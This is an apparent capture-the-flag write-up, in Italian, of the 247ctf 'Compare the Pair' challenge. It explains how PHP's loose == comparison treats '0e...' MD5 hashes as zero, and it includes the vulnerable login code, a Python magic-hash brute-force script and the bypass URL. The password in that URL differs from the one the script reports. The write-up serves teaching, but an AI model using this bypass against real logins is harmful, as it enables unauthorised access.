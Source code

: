 ```yaml
---
title: "247ctf Compare the Pair"
date: 2025-10-19T23:44:44+02:00
draft: false
---
```


# Compare The Pair - WEB

- **Platform:** 247ctf
- **Difficoltà:** Moderate (Relativo alla piattaforma)
- **Link:** https://247ctf.com/  

## Descrizione

```text
Can you identify a way to bypass our login logic? MD5 is supposed to be a one-way function right?
```

In questa CTF ci viene fornito un endpoint in cui viene mostrato il codice sorgente della pagina stessa. Il nostro obiettivo è bypassare la logica di login:

``` php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

## Analisi

Il codice è strutturalmente molto semplice: la flag si trova nel file 'flag.php' che viene mostrato solo e soltanto se viene soddisfatta questa condizione:

`if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){`

Facendo un HTTP GET alla pagina e impostando il query param "password", viene calcolato l'hash del parametro e confrontato con quello hardcoded del codice.

L'hash viene calcolato tramite la funzione `md5($salt . $_GET['password'])`. Dal nome, sappiamo che l'algoritmo di hashing utilizzato è MD5 e che il salt è utilizzato concatenandolo alla password fornita come parametro. Per nostra fortuna, sia il salt che l'hash della password sono entrambi hardcoded nel codice sorgente.

Sarebbe semplice utilizzare hashcat per tentare un bruteforce o facendo utilizzo di un dizionario, tuttavia è un metodo poco interessante e soprattutto non abbiamo la certezza di riuscire a ricavare la password in questo modo. Possiamo fare di meglio.

### Il confronto in PHP

Guardando il codice attentamente c'è un particolare tanto subdolo quanto pericoloso: il modo in cui è fatto il confronto: quello che può essere un banale operatore di confronto (`==`) nasconde un'insidia che può trarre in inganno molto facilmente.
PHP ha due modi per verificare se due elementi sono uguali:

L'operatore "==": 

```php
$a = 5;   // Number
$b = "5"; // String
var_dump($a == $b); // true
```
che controlla se i valori sono uguali dopo la conversione di tipo (type juggling).

L'operatore "===": 
```php
$a = 5;
$b = "5";
var_dump($a === $b); // false
```
Decisamente più robusto, che controlla sia valore che il tipo di dato.

Nel nostro caso, il confronto che viene fatto è del primo tipo, quindi gli operandi sono soggetti al type juggling.

Il type juggling è la conversione automatica di un tipo di dato in un altro  quando necessario (ad esempio nel contesto di un confronto). Non è una caratteristica unica di PHP. Altri linguaggi hanno lo stesso meccanismo ed è particolarmente comodo soprattutto se si utilizza un linguaggio non tipizzato. Ma come possiamo sfruttarlo in questo caso?

Osserviamo attentamente l'hash della password hardcoded: `0e902564435691274142490923013038`

Come si può notare, è un hash particolare in quanto costituito esclusivamente da numeri ad esclusione della seconda cifra che contiene il carattere `e`. Questa stringa assomiglia alla rappresentazione scientifica di un numero, in particolare 0 x 10^(902564435691274142490923013038), ovvero 0.
Questo genere di stringhe in PHP viene definita "numeric string" e, nel momento in cui le vogliamo confrontare, PHP le converte in numero. Questo significa che, se riusciamo a produrre un hash che sembri una "numeric string" e quindi un numero in notazione scientifica, non stiamo più confrontando stringhe, ma numeri!

Per bypassare il login ci serve una password il cui hash (con salt) produca una stringa che inizi per 0e (cioè zero seguito dal carattere `e`) seguito solo numeri.

## Soluzione

Passiamo ora a scrivere uno script per poter trovare la password che ci serve. Non sarà la soluzione più efficiente possibile, ma fa il suo lavoro:

```python

import hashlib

salt = 'f789bbc328a3d1a3'
nonce = 1

print("Starting password cracking...")
while True:
    if nonce % 1000 == 0 and nonce != 0:
        print(f'Trying nonce: {nonce}')
    password = salt + str(nonce)
    hashed = hashlib.md5(password.encode()).hexdigest()
    if hashed[:2] == '0e' and hashed[2:].isdigit():
        print(f'Valid password found: {nonce}')
        print('Hash: ', hashed)
        break
    nonce += 1

```

Il suo funzionamento è molto semplice: attraverso una nonce che incrementiamo ad ogni iterazione, verifichiamo se il suo hash corrisponda al pattern che stiamo cercando. 

(Riflettendoci, concettualmente non è tanto diverso dal mining 🙂)

## Risultato

Dopo qualche minuto il nostro script (non particolarmente efficiente) ci mostra una password valida:

```bash
Trying nonce: 237694000
Trying nonce: 237695000
Trying nonce: 237696000
Trying nonce: 237697000
Trying nonce: 237698000
Trying nonce: 237699000
Trying nonce: 237700000
Trying nonce: 237701000
Valid password found: 237701818
Hash:  0e668271403484922599527929534016
```

È importante notare come questa non sia la password corretta, infatti l'hash è decisamente diverso da quello che abbiamo:

`md5('f789bbc328a3d1a3237701818') -> 0e668271403484922599527929534016 != 0e902564435691274142490923013038`

Tuttavia è una numeric string che causa questo comportamento:

```bash
php > echo '0e902564435691274142490923013038' == '0e668271403484922599527929534016';
1

# 0e902564435691274142490923013038 ovvero 0 x 10 ^ (902564435691274142490923013038) = 0
# 0e668271403484922599527929534016 ovvero 0 x 10 ^ (668271403484922599527929534016) = 0
# 0 == 0

```

Ovvero PHP le interpreta erroneamente come due numeri in notazione scientifica! Infatti qualunque stringa che segue il formato sarà true:

```bash
php > echo '0e902564435691274142490923013038' == '0e0';
1
php > echo '0e902564435691274142490923013038' == '0e123';
1
php > echo '0e902564435691274142490923013038' == '0e9999999999999';
1
```

Utilizzando la password trovata dal nostro script come query param (https://8e2e86060d2436d1.247ctf.com/?password=237701815) otteniamo il nostro premio:

![FLAG FOUND](/images/ctf/247ctf-compare-the-pair/flag_found.png)

## Approfondimenti

- [How PHP Type Juggling Works – Explained with Code Examples](https://www.freecodecamp.org/news/how-php-type-juggling-works-explained-with-code-examples/)
- [PHP Type Juggling Simplified](https://secops.group/php-type-juggling-simplified/)
- [Type Juggling](https://www.php.net/manual/en/language.types.type-juggling.php)